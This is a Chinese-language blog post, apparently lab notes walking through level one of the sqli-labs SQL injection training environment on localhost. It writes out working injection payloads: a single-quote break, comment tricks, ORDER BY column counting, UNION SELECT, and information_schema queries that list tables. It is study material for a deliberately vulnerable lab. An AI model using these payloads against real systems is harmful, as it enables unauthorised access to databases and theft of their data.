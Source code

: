 ```yaml
---
 title: Sqlilabs通关笔记(1-10)
 date: 2020-01-02 15:28:58
 tags:
 categories:
---
```



## 环境搭建

## 用于SQL注入学习环境

1. [源码下载地址](https://github.com/himadriganguly/sqlilabs)
2. 用phpstudy或者web环境直接搭建运行


## 第一关 基于错误的GET单引号字符型注入
![2020-1-2-17-52-39](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-52-39)

<!--more-->
- **存在注入判断**

    1. 加上单引号报错
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'
    ```
    2. 加上注释符页面正常
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1' %23
    ```
    * 注释方式
        - \# 号注释
        - %23 注释 
        - --+ 注释
    3. 判断字段数(使用order by)
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 3%23 # 正常
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 4%23 # 页面显示错误

    说明字段数为3
    ```
    4. 执行注入Payload
    ```
    # 判断显示的信息点，通过id=-1来执行联合查询
    http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,2,3%23
    ```
    ![2020-1-2-17-53-4](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-53-4)
    
    * 常用查询信息
        - database() # 在用的数据库名
        - user()    # 用户信息
        - version() # 数据库版本信息
        - @@basedir # 数据库安装路径
    
    ![2020-1-2-17-43-36](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-43-36)


    5. 查看数据库数据

    * 查看表名称
    **group_concat函数:将查询到的多行结果连接成字符串**
    ```
    http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
    ```
